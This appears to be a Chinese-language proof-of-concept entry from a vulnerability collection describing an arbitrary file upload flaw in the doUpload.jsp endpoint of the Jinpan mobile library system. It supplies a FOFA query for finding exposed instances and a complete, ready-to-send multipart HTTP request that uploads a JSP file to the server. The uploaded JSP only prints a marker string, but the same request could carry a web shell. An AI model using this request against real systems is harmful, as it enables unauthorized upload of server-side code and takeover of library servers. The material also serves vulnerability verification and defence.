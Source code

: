 ## 金盘移动图书馆系统存在任意文件上传漏洞

金盘图书馆微信管理平台 doUpload.jsp接口存在任意文件上传漏洞，攻击者通过漏洞可以获取权限。

## fofa
```
app="金盘软件-金盘移动图书馆系统"
```

## poc
```
POST /pages/admin/tools/uploadFile/doUpload.jsp HTTP/1.1
Content-Type: multipart/form-data; boundary=399e563f0389566bd40fd4d6409a67dd
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Host: 127.0.0.1
Content-Length: 179
Connection: close

--399e563f0389566bd40fd4d6409a67dd
Content-Disposition: form-data; name="file"; filename="jILUp0.jsp.jsp"

<% out.println("lP4pC7HrY"); %>
--399e563f0389566bd40fd4d6409a67dd--
```

![image](../../images/17f45fd2-35a6-474a-b2ee-c6f49426423a.png)
